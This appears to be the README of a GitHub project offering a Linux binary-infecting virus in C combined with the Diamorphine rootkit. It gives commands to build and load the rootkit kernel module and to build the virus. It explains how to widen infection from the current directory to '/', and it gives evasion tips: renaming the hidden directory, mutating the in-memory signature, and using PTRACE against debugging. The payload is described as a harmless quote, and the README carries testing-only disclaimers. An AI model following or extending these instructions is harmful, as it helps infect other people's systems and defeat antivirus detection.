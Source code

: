 # Nestor_Makhno
Linux virus in C that uses mutation and rootkit functionality

Nestor Makhno is a simple Linux virus that uses a rootkit(Diamorphine) to help hide its tracks and avoid av detection. The historical Nestor Makhno was famous for a lot, but one thing was being the first to begin using machine guns on covered wagons. He didn't create machine guns or wagons, but he knew these things would work well together. His ideas are still credited as the first proto-tank and first drive-by shooting. The Diamorphine rootkit existed long before the virus code added here. Its mostly used to make the process invisible in the pids.c file. As-is, it will also be used to create a hidden directory in /dev/shm/diamorphine_secret_def_not_a_virus. To avoid detection we suggest renaming this directory in the code of simmple.c

```
$ grep mkdir virus/simple.c
   mkdir("/dev/shm/diamorphine_secret_def_not_a_virus",0775);
```

Diamorphine will hide any folder on the system who's name begins with "diamorphine_secret". So be sure to include this with any locations that should be hidden. You may also want to build and run the virus portion of Nestor_Makhno from a folder like this to avoid dectection as well. 

To use this code, first go to the Diamorphine directory, build and install it:

```
$ cd ./Diamorphine
$ make
$ sudo insmod ./diamorphine.ko
```

If you expirence errors, you most likely do not have kernel headers installed. On Debian you may install them with the following:

$ sudo apt search linux-headers-$(uname -r)

Then go to the directory for the virus and build it:

$ cd ../virus
; make

To prevent abuse, there is no real payload used with this code. Instead only an infamous quote by the historical Nestor Makhno will be injected into binaries. After completing you will find a binary called 'Nester_Makhno' and another called 'hello' to be used for testing. The code is set here to only infect files in the same directory:

$ grep '^   scan' virus/simple.c<br>
   scan_dir(".", virus);

The above location may be editted to '/' or any desired location if you have a vm or sandbox. It should go without sayinig, but DO NOT RELEASE THIS CODE INTO THE WILD. THIS IS FOR TESTING AND EDUCATIONAL PURPOSES ONLY. I am not responsible for any damage this may cause and depending on your location, running this code may be illegal on devices you do not own. So you have been warned. 

Running the code you will see the quote from our payload: 

$ cd ./virus
; ./Nestor_Makhno<br>
Death to all those who stand in the way of freedom for the working people!
 
You can silence this by outputting to /dev/null. After this, you will find the hello binary will also excute this quote:

$ ./hello        
Death to all those who stand in the way of freedom for the working people!<br>
Hello!

This is despite this string not being found in the code of hello.c:

$ cat ./hello.c <br>
#include <stdio.h> <br>

int main(){ <br>
&nbsp;&nbsp;&nbsp;&nbsp;printf("Hello!\n");<br>
}<br>

Using virus strategies of the past, the modify.c file in the virus directory is used to randomly obscure this code's signature in memory. Basically making this a mutation virus as well. PTRACE has been used in trace.c to help prevent debugging. Combined with the rootkit functionality, this will make detection much more difficult, but not impossible.

If you wish to make changes to this code, the following line will need to be updated:

$ grep 'define PARASITE_LENGTH' simple.c<br>
#define PARASITE_LENGTH 14800 /* PARASITE_LENGTH the size of compiling virus */

This will need to match the number of bytes in the compiled binary:

$ ls -l Nestor_Makhno<br>
-rwxr-xr-x 1 user user 14800 Mar  9 02:19 Nestor_Makhno

Otherwise functionality of the virus might cease to work correctly.

Information on the historical Nestor Makhno may be found here:

https://en.wikipedia.org/wiki/Nestor_Makhno

Information on the Diamorphine may be found here:

https://github.com/bms8197/diamorphine 
